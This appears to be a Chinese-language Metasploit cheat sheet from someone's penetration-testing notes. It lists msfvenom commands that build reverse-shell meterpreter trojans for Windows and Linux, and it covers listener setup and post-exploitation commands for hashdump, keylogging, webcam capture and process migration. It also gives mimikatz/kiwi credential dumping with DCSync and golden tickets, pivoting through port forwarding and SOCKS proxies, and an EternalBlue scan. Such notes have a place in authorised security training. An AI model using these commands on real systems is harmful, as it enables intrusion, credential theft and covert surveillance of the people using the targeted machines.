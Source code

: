 

# **基本步骤**

```bash
search xxx		# 搜索某个模块
use xxx			# 使用某个模块
show options	# 查看配置选项
set payload		# 配置攻击载荷
run/exploit		# 执行渗透攻击
```



# 木马生成

Winodws

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=Kali的IP LPORT=Kali监听端口 -f exe > msf.exe

参数选项：
-p			指定的payload
-e 			编码器，x86/shikata_ga_nai
-i			迭代器，对有效载荷的编码次数
-f			输出文件的格式,exe、dll、raw
```

Linux

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=Kali的IP LPORT=Kali监听端口 -f elf > msf.elf
chmod +x ./msf.elf # 为木马添加执行权限
```

MSF监听

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp # 设置的payload要一致，不然连不上
set LHOST Kali的IP
set LPORT Kali监听端口
run
```



# Meterpreter

## 常用命令

```bash
pwd、ls、cd
getuid		# 查看当前权限
getsystem	# 获得系统管理员权限（要本地管理员权限运行）
hashdump	# 抓哈希密码
sysinfo		# 查看系统信息
idletim     # 查看目标系统已运行时间
route		# 查看目标机完整网络设置
shell		# 进入目标机shell，exit退出she
background	# 将meterpreter隐藏在后台

upload ./1.txt c:\\1.txt		# 上传文件
download c:\1.txt ./			# 下载文件
search -f *.txt -d c://			# 搜索文件

keyscan_start	# 启动键盘记录
keyscan_stop	# 停止键盘记录
keyscan_dump	# 转储键盘记录的内容
screenshot		# 抓取截屏
webcam_list		# 摄像头列表
webcam_snap		# 摄像头拍照
webcam_stream	# 抓取视频
```



## 进程迁移

```bash
ps | grep "explore"
migrate pid # 将shell迁移到explorer.exe进程中
```



## **会话管理**

```bash
background		# 将当前会话放置后台
sessions		# 会话管理
sessions -l		# 列出所有会话
sessions -K		# 终止所有会话
sessions -i id	# 进入某个会话
```



## 会话派生到CS

CS创建监听器

![image-20231014203804586](../images/image-20231014203804586.png)

MSF

```bash
background
use exploit/windows/local/payload_inject
set lhost 192.168.32.102       
set lport 9999               
set DisablePayloadHandler True
set PrependMigrate True
sessions -l   
set session 1 
run     
```

没成功，弹了个记事本？？？？





## mimikatz

```bash
load kiwi
```

![image-20230330143036863](../images/image-20230330143036863-1686283281461.png)

```bash
creds_all：列举所有凭据
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码
```

##### 调用mimikatz

> 在安装了KB2871997补丁或者系统版本大于windows server 2012时，系统的内存中就不再保存明文的密码，这样利用mimikatz就不能从内存中读出明文密码了。mimikatz的使用需要administrator用户执行，administrators中的其他用户都不行。

[mimikatz命令](https://tttang.com/archive/1616/)

```bash
kiwi_cmd module::xxx
kiwi_cmd sekurlsa::wdigest
kiwi_cmd sekurlsa::logonpasswod
```

![image-20230324153358300](../images/image-20230324153358300-1686283281461.png)



## 端口转发

```bash
portfwd add -l 6666 -p 3389 -r 127.0.0.1 #将目标机的3389端口转发到本地6666端口
```



## 隧道代理

```bash
run autoroute -s 192.168.52.0/24 # 为当前sesison添加路由
background
use auxiliary/server/socks_proxy # socks5代理
set SRVHOST 127.0.0.1
run

配置proxychains使用该socks5代理
```



## 永恒之蓝

```bash
auxiliary/scanner/smb/smb_ms17_010 # 扫描模块
search exploit ms17_010 # 查找exp
```



# 更多

[MSF渗透常用操作指南 - 跳跳糖 (tttang.com)](https://tttang.com/archive/1432/)